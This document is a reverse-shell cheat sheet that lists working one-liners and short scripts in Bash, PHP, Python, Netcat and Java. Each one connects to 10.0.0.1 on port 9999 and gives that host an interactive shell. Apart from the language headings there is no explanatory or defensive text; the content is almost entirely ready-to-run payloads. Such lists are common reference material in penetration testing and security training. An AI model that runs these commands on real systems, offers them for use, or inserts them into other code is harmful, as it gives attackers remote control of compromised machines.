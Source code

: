 # Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
##
##
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###
